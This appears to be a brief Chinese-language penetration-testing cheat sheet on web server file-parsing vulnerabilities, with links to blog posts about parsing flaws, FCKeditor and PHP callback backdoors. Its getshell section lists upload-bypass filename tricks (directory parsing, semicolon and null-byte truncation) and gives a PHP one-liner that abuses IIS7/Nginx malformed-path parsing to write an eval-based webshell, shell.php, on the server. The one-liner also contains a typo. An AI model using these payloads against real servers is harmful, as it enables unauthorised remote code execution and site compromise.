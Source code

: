 ## 文件解析
https://blog.csdn.net/wn314/article/details/77074477
https://www.cnblogs.com/shellr00t/p/6426856.html


##fck
https://blog.csdn.net/lizhengnanhua/article/details/38451737


## 回调后门
https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html

### getshell
目录解析 1.asp/1.png
分号阶段 1.asp;.png
改包 00截断

IIS7.0 .5 Nginx<8.03畸形解析漏洞
默认FAST-CGI开启状态上传一个1.jpg内容
```php
<?php fputs(fopen('shell.php','w'),'?<php eval($_POST[cmd]?>');?>
```

访问1.jpg/.php。在这个目录下就会生成一句话木马shell.php